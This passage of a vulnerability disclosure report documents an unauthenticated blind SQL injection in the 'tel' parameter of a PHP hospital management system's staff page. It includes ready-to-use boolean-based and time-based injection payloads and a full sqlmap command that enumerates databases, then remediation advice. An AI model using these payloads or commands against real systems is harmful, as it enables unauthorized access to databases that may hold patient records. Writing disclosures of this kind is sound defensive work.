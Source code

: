# 6. Exploitation
+ No authentication or authorization is required to exploit this vulnerability.

# 7. Vulnerability Details and Proof of Concept (PoC)

## 7.1 Vulnerability Types
	Boolean-Based Blind SQL Injection
	Time-Based Blind SQL Injection

## 7.2 Vulnerable Parameter
	tel

## 7.3 Payloads

**Boolean-Based Blind SQL Injection:**
```bash
dmun=superAdmin&fname=polaris&lname=Blue&addr=1066 Front St&tel=178493927' RLIKE (SELECT (CASE WHEN (7754=7754) THEN 178493927 ELSE 0x28 END)) AND 'osvG'='osvG&email=hacker0x1@163.com&gender=Male&smbdd=2024-12-10&typesm=Doctor&workt=Evening&submit=SUBMIT
```
**Time-Based Blind SQL Injection:**
```bash
dmun=superAdmin&fname=polaris&lname=Blue&addr=1066 Front St&tel=178493927' AND (SELECT 1303 FROM (SELECT(SLEEP(5)))TqHy) AND 'fNVr'='fNVr&email=hacker0x1@163.com&gender=Male&smbdd=2024-12-10&typesm=Doctor&workt=Evening&submit=SUBMIT
```
## 7.4 Exploitation Steps with sqlmap
```bash
sqlmap -u "localhost:8000/staff.php" \
       --cookie="PHPSESSID=nn14c3dea64e57kvj0896m3djm" \
       --data="dmun=superAdmin&fname=polaris&lname=Blue&addr=1066+Front+St&tel=178493927&email=hacker0x1%40163.com&gender=Male&smbdd=2024-12-10&typesm=Doctor&workt=Evening&submit=SUBMIT" \
       --batch --level=5 --risk=3 --dbms=mysql \
       --random-agent --tamper=space2comment --dbs
```
**Screenshots from sqlmap Execution:**
+ <img width="1683" alt="image" src="https://github.com/user-attachments/assets/03b8f55f-790c-4097-9b53-219c84b5a969" />

# 8. Recommendations for Remediation
**1.Use Prepared Statements and Parameterized Queries:**
+ Implementing prepared statements ensures that SQL queries are separated from user inputs, preventing malicious code execution.
**2.Input Validation and Sanitization:**
+ Rigorously validate and sanitize all user inputs to conform to expected formats and types before processing.
**3.Least Privilege Principle:**
+ Restrict database user permissions to the minimum required, avoiding the use of high-privilege accounts (e.g., root or admin) for routine operations.
**4.Regular Security Audits:**
+ Conduct periodic code reviews and security assessments to identify and remediate vulnerabilities promptly.

**Appendix**
+ Vendor Homepage: [Hospital Management System](https://codezips.com/php/hospital-management-system-in-php-and-mysql-with-source-code/)
+ Download Source Code: [GitHub Repository](https://codeload.github.com/codezips/hospital-management-system-php/zip/master)
